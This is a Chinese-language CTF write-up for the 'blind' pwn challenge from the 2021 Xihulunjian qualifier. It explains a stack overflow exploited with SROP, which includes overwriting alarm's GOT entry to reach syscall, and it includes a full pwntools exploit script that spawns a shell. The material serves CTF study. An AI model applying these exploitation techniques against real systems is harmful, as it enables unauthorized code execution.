 ```yaml
---
layout: article
pageview: true
key: 2021-12-10-xihulunjian2021-pwn-wp
title: 西湖论剑2021初赛Pwn题WP
author: Ch4rc0al
categories:
  - WriteUps 
tags: 
  - Pwn
  - CTF
---
```




# 西湖论剑2021初赛Pwn题WP



<!--more-->



## blind

主函数内一个栈溢出，没有开`PIE`，可利用函数只有`alarm`,`sleep`,`read`，结尾`return read(xxx)`，考虑`srop`，我们在`bss`段写下`/bin/sh`字符串，修改`alarm`函数的got表地址后一位为`0x?5`将其改为`syscall`，在栈上布置`Sigreturn frame`，内容为执行`execve('/bin/sh',0,0)`，在read里输入`0xf`个字符调用`signal return`，完成getshell。

代码写的很难看，请见谅

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

p=process('./blind')

debug=1

elf=ELF('./blind')
p_rdi=0x00000000004007c3
p_rsi_r15=0x00000000004007c1
call_rax=0x00000000004006ae
main=0x4006b6
bss=elf.bss()+0x100
pad='\x00'*0x58

def csu(call,rdi,rsi,rdx,ret):
    csu_end=0x4007ba
    csu_front=0x4007a0
    payload=pad+p64(csu_end)+p64(0)+p64(1)+p64(call)+p64(rdx)+p64(rsi)+p64(rdi)+p64(csu_front)+'\x00'*0x38+p64(ret)
    return payload

sigframe=SigreturnFrame()
sigframe.rax=constants.SYS_execve
sigframe.rsp=bss+0x100
sigframe.rdi=bss
sigframe.rsi=0
sigframe.rdx=0
sigframe.rip=elf.plt['alarm']

gdb.attach(p,'b read')

pay=csu(elf.got['read'],0,bss,0x8,main).ljust(0x500,'\x00')

p.send(pay)

p.send('/bin/sh\x00')

pay=(csu(elf.got['read'],0,elf.got['alarm'],0x1,0xdeadbeaf)[:-8]+csu(elf.got['read'],0,bss+0x100,0xf,elf.plt['alarm'])[0x58:]+str(sigframe)).ljust(0x500,'\x00')

p.send(pay)

p.send('\x15')

p.send('\x00'*15)

p.interactive()
```

